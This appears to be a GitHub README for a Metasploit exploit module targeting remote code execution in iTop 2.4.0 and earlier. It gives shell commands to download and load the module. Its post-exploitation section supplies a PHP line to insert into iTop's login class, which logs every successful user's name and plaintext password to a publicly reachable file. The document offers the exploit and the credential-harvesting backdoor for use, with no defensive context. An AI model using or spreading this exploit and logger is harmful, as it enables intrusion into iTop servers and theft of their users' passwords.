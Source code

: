 # Metasploit module for RCE in iTop <= 2.4.0

Installation:
------

```bash
mkdir -p ~/.msf4/modules/exploits/itop/
wget https://raw.githubusercontent.com/attackercan/itop-2.4.0-rce/master/itop_rce.rb -O ~/.msf4/modules/exploits/itop/itop_rce.rb
msfconsole
use exploit/itop/itop_rce
```

Post-exploitation:
------

After you have RCE, you can sniff successful login attempts by changing `./application/loginwebpage.class.inc.php`:

```php
	// User is Ok, let's save it in the session and proceed with normal login
>>>>>	file_put_contents('./css/ui-lightness/images/log.txt', $sAuthUser.":".$sAuthPwd."\r\n", FILE_APPEND);
```

Pull requests are welcomed.

![msf](https://user-images.githubusercontent.com/17142772/38373739-934bf824-38fa-11e8-94fb-044a8147583c.png)
